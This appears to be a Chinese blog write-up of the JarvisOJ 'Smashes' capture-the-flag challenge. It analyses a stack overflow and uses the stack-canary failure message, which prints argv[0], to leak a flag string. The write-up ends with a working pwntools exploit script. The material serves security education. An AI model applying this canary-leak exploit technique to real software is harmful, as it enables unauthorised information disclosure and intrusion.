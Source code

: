 ```yaml
---
title: jarvis_Smashes
date: 2020-02-12 21:54:39
tags:
- pwn
- jarvisOJ
---
```


# JarvisOJ Smashes

### 0x0 前置补偿

[关于CANARY的几种绕过方法]([https://veritas501.space/2017/04/28/%E8%AE%BAcanary%E7%9A%84%E5%87%A0%E7%A7%8D%E7%8E%A9%E6%B3%95/](https://veritas501.space/2017/04/28/论canary的几种玩法/))

CANARY 相关函数：

`__stack_chk_fail` :

```C
void 
__attribute__ ((noreturn)) 
__stack_chk_fail (void) {   
	__fortify_fail ("stack smashing detected"); 
}
```

`fortify_fail`:

```c
void 
__attribute__ ((noreturn)) 
__fortify_fail (msg)
   const char *msg; {
      /* The loop is added only to keep gcc happy. */
         while (1)
              __libc_message (2, "*** %s ***: %s terminated\n", msg, __libc_argv[0] ?: "<unknown>") 
} 
libc_hidden_def (__fortify_fail)
```

所以看到这里如果CANARY被破坏，函数会打印`argv[0]`的值。也就是程序的名称。

另外：

ELF重映射：当可执行文件足够小时，在不同的区段可能被多次映射。

### 0x1 分析

看一下安全性：

<img src="https://i.loli.net/2020/02/12/XaVvNxPMLH9mfOJ.png" style="zoom:50%;" />

有CANARY保护

看一下反编译的代码

`main()`:

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  FILE *v3; // rdi

  v3 = stdout;
  setbuf(stdout, 0LL);
  sub_4007E0(v3, 0LL);
  return 0LL;
}
```

没啥东西。接着看`sub_4007E0`函数吧。

`sub_4007E0`:

```c
unsigned __int64 sub_4007E0()
{
  __int64 v0; // rbx
  int v1; // eax
  __int64 v3; // [rsp+0h] [rbp-128h]
  unsigned __int64 v4; // [rsp+108h] [rbp-20h]

  v4 = __readfsqword(0x28u);
  __printf_chk(1LL, "Hello!\nWhat's your name? ");
  if ( !_IO_gets(&v3) )
LABEL_9:
    _exit(1);
  v0 = 0LL;
  __printf_chk(1LL, "Nice to meet you, %s.\nPlease overwrite the flag: ");
  while ( 1 )
  {
    v1 = _IO_getc(stdin);
    if ( v1 == -1 )
      goto LABEL_9;
    if ( v1 == 10 )
      break;
    byte_600D20[v0++] = v1;
    if ( v0 == 32 )
      goto LABEL_8;
  }
  memset((void *)((signed int)v0 + 6294816LL), 0, (unsigned int)(32 - v0));
LABEL_8:
  puts("Thank you, bye!");
  return __readfsqword(0x28u) ^ v4;
}
```

这里发现`_IO_gets(&v3)`这里可以无限制输入，可以栈溢出。但是有CANARY保护。还要另想办法。

后面还有个输入`_IO_getc(stdin);`但是只能最多输入$32$个字符。

`memset((void *)((signed int)v0 + 6294816LL), 0, (unsigned int)(32 - v0));`

接着这个位置之后的地方就被清空了。

但是看`byte_600D20`这个地方的时候，我们发现了暗示：

![](https://i.loli.net/2020/02/12/WtrJzOQlTioAS5Y.png)

我们发现这个地方的下一个字节是一段字符串，也许泄漏这个地方就能得到`flag`，但是很遗憾这个地方被覆盖了。还是因为这句代码：

`memset((void *)((signed int)v0 + 6294816LL), 0, (unsigned int)(32 - v0));`

但是由于ELF重映射，我们发现：

<img src="https://i.loli.net/2020/02/12/WbdFxAlNcHCrhMI.png" style="zoom:150%;" />

`flag`字符串一定有备份在`0x400000`后面。

Got it!

![](https://i.loli.net/2020/02/12/WU923aRrkJ6dNHn.png)

接下来就是泄漏这个位置。

我们利用CANARY被破坏后输出`argv[0]`的机制。我们通过`IO_gets`覆盖`argv[0]`。达到泄漏的目的。

所以我们需要找到我们输入的地方与`argv[0]`的距离。

![](https://i.loli.net/2020/02/12/lwXcsbTgdBHAjnQ.png)

我们找最远的那个位置。

另外我们输入的时候`esp`的位置：

![](https://i.loli.net/2020/02/12/eLYHfpCRWcbxUmO.png)

所以距离为：`0x7fffffffefd7 - 0x7fffffffe3d0`

所以可以设置`payload`为`(0x7fffffffefd7 - 0x7fffffffe3d0)/8 * p64(0x400d21)`

完事儿。

### 0x2 EXP

```python
#! /usr/bin/python
#coding:utf-8

from pwn import *

flag_addr = 0x400d21 
payload = (0x7fffffffefd7 - 0x7fffffffe3d0)/8 * p64(flag_addr)

p = remote("pwn.jarvisoj.com", 9877)
p.sendlineafter("What's your name?", payload)
p.sendline("1")
p.interactive()
```

